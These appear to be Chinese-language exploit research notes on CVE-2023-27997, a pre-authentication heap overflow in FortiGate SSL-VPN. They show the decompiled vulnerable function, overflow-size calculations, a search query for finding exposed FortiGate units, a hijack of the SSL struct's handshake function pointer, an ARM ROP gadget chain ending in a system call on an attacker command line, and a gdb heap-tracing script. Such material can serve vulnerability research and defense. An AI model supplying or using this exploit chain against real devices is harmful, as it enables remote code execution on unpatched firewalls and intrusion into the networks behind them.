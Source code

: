 # 漏洞原理

```c
int parse_enc_data(char *in)
{
    int in_len = strlen(in);
    int given_len;
    int xored_given_len;

    if(in_len & 1)
    {
        return 1;
    }

    compute_key_zero(salt, in, 8, md5); // [1] Computes key from salt, seed

    out = alloc_block(*pool, (in_len >> 1) + 1); // [2] Allocate a buffer
    unhex(out, in); // [2] Hexa-decode in to out

    if (out[0]) // first byte of seed must be 0x00
    {
        ap_log_rerror((__int64)a1, 8LL, (__int64)"invalid encoding method %d\n", needs_null);
        return 1;
    }

    // [3] Decrypt given length
    xored_given_len = *((_WORD *)out + 2);
    given_len = (unsigned __int8)(xored_given_len ^ md5[0]);
    BYTE1(given_len) = md5[1] ^ HIBYTE(xored_given_len);

    if ( in_len - 5 <= given_len ) // [4] Verify bounds
    {
        ap_log_rerror(a1, 8LL, "invalid enc data length: %d\n", given_len);
        return 1LL;
    }

    // [5] Decrypt: xor every input from byte 6 (4 bytes for seed, 2 bytes for length)
    p = &out[6];
    if (given_len)
    {
        int i = 0LL;
        while (i < given_len)
        {
            if ((i + 2) % 16 == 0) // Current state is exhausted: compute new
            {
                MD5_Init(md5_ctx);
                MD5_Update(md5_ctx, md5, 16LL);
                MD5_Final(md5, md5_ctx);
            }
            p[i] ^= md5[(i + 2) % 16];
            ++i;
        }
    }
    out[6 + given_len] = 0; // [6] Append null byte

    add_kvp_to_hashmap(a1->params, out); // [7] Process plaintext

    // Allocated buffers get freed at the end of the HTTP exchange
    return 0;
}
```

```
8个字节    in_len: 16    out_buf_size:9     (in_len - 5):11     given_len max:10        溢出1字节
32个字节   in_len: 64    out_buf_size:33    (in_len - 5):59     given_len max:58				 溢出25字节
64个字节   in_len: 128   out_buf_size:65    (in_len - 5):123    given_len max:122  		 溢出57字节
```

```python
#!/bin/python3

in_len = 32

while in_len <= 1024:
    out_buf_len = (in_len>>1)+1
    in_len_5 = in_len - 5
    give_len_max = in_len_5 -1
    print(f"in_len:{in_len} out_buf_len:{out_buf_len} in_len - 5:{in_len_5}  give_len max:{give_len_max} overflow:{give_len_max - out_buf_len}")
    in_len += 2
```

# 资产扫描

fortigate product:"Fortinet FortiGate-81E"

# gadget

```c
struct ssl_st {
    /*
     * protocol version (one of SSL2_VERSION, SSL3_VERSION, TLS1_VERSION,
     * DTLS1_VERSION)
     */
    int version;
    /* SSLv3 */
    const SSL_METHOD *method;
    /*
     * There are 2 BIO's even though they are normally both the same.  This
     * is so data can be read and written to different handlers
     */
    /* used by SSL_read */
    BIO *rbio;
    /* used by SSL_write */
    BIO *wbio;
    /* used during session-id reuse to concatenate messages */
    BIO *bbio;
    /*
     * This holds a variable that indicates what we were doing when a 0 or -1
     * is returned.  This is needed for non-blocking IO so we know what
     * request needs re-doing when in SSL_accept or SSL_connect
     */
    int rwstate;                                /--20--/
    int (*handshake_func) (SSL *);              /--24--/
```

通过逆向`/home/sysirq/Work/Fortinet/FortiGate_6_4_6_81E/rootfs/unpack/lib/libssl.so.1.1 `中的`SSL_do_handshake`函数

```
.text:0001E39E                 LDR             R3, [R4,#0x18]
.text:0001E3A0                 MOV             R0, R4
.text:0001E3A2                 BLX             R3
```

发现 R4,R0 均指向struct ssl_st的开头




我们需要通过r0 ，r4 将栈移动到我们的控制的gadget中去，

```
ssl->handshake_func（offset:0x18）  设置为 (0x011f96fe : mov r7, r0 ; mov.w r0, #0x400 ; ldr r2, [r4] ; mov sb, r1 ; mov r8, r3 ; blx r2)
ssl->version				(offset:0x00)  设置为 (0x00921326 : mov sp, r7 ; pop.w {r4, r5, r6, r7, r8, sb, sl, fp, lr} ; add sp, #4 ; bx lr)
ssl->new_session		(offset:0x20)  设置为 (0x005712ee : sub sp, #0x1a8 ; pop {r4, pc})
```

这样，当执行ssl->handshake_func 会执行 ssl->version 进而执行 ssl->new_session。最后跳转到我们控制的栈上去



构造的ropchain的最后一部分

```
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
.....................
0x001cb480 : pop {pc}
0x0003649c : pop {r3, pc}
0x001cb480 : FUNC_FORK_SYSTEM
0x00037caa : add r0, sp, #0x24 ; blx r3
sp+24			 : cmdline
......................
```


# 用于跟踪分配的gdb脚本

```
set height 0
set pagination off
set disassembly-flavor intel
handle SIGPIPE nostop
# break after allocating the buffer grab the address
b *0x0173164e
commands
    silent
    set $heap_obj = $rax
    printf "buffer: %p\n", $heap_obj
    c
end
# print address of SSL objects when malloc'd
b *CRYPTO_zalloc+37 if  ( $r12 == 0x1db8 )
commands
    silent
    printf "CRYPTO_zalloc(0x%x) = %p\n", $r12, $rax
    c
end

# break in malloc helper function (used by vulnerable function)
b *0x018021d6 if (($r13>0x1c00) && ($r13<=0x2000))
commands
    silent
    set $size = $r13
    set $addr = $rax
    printf "malloc(0x%x) = %p\n", $size, $addr
    c
end

# break in je_malloc in case something calls je_malloc directly
b *je_malloc if (($rdi>0x1c00) && ($rdi <=0x2000))
commands
    silent
    printf "je_malloc(%x)\n", $rdi
    c
end
```

# 资料

XORtigate: Pre-authentication Remote Code Execution on Fortigate VPN (CVE-2023-27997)

https://blog.lexfo.fr/xortigate-cve-2023-27997.html

xortigate-cve-2023-27997

https://github.com/lexfo/xortigate-cve-2023-27997?tab=readme-ov-file

Alert: 330,000 FortiGate Firewalls Still Unpatched to CVE-2023-27997 RCE Flaw

https://thehackernews.com/2023/07/alert-330000-fortigate-firewalls-still.html

Fortinet Fortigate RCE (CVE-2023-27997) #18163

https://github.com/rapid7/metasploit-framework/issues/18163

CVE-2023-27997 Is Exploitable, and 69% of FortiGate Firewalls Are Vulnerable

https://bishopfox.com/blog/cve-2023-27997-exploitable-fortigate-vulnerable

Breaking Fortinet Firmware Encryption

https://bishopfox.com/blog/breaking-fortinet-firmware-encryption

CVE-2023-27997 Vulnerability Scanner for FortiGate Firewalls

https://bishopfox.com/blog/cve-2023-27997-vulnerability-scanner-fortigate

Building an Exploit for FortiGate Vulnerability CVE-2023-27997

https://bishopfox.com/blog/building-exploit-fortigate-vulnerability-cve-2023-27997

ssl_st Struct Reference

https://openxdas.sourceforge.net/doxygen/html/structssl__st.html